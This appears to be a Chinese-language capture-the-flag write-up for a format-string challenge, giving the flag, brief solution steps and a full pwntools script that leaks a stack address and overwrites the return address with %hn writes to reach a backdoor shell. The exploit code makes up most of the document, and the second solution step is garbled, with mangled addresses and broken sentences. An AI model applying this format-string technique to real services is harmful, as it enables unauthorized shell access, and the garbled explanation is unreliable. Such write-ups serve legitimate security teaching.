



## flag

MOCSCTF{gR8^WY0tzi!PfS9k_LMATxQ3VuEjb7d}

## 解題步驟



1. 簡單的格式化字串題目，printf有問題，不過要注意，我們透過read輸入的字串保存在 bss段上而不是棧上，給出了後門，則目標是跳到shell即可



2. 透過動態調試，可以洩漏棧位址，我們的目標是透過修改rbp+8位置的回傳值為後門位址， 拿到shell，透過第二個，透過對+38位置進行修改，將其指向返回位址，即將 0x7ffe3e99dfbd修改為0x7ffe3e99c1a8，ffffe3e99dffd門地址進行修改了，最後拿到shell:



```
from pwn import *

filename = 'chall'
context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'neww']

LOCAL = False
elf = ELF(filename)

if LOCAL:
    sh = process(filename)
else:
    sh = remote('localhost', 9997)

def leak_info(name, addr):
    log.success(f"{name} => {hex(addr)}")

shell_addr = 0x40128C

# Leak stack address
sh.sendafter(b'Input your message:', b'%6$p')
sh.recvuntil(b'message:\n')
stack = int(sh.recvline(keepends=False), 16)
ret_addr = stack - 0x8  # rbp+8

leak_info('ret_addr', ret_addr)
leak_info('shell', shell_addr)

# Overwrite return address (lower 2 bytes)
payload = f"%{ret_addr & 0xffff}c%13$hn"
sh.sendafter(b'Input your message:', payload.encode())

# Overwrite return address to shell (lower 2 bytes)
payload = f"%{shell_addr & 0xffff}c%43$hn"
sh.sendafter(b'Input your message:', payload.encode())

# Trigger shell
sh.sendafter(b'Input your message:', b'su str done!\x00')
sh.interactive()
```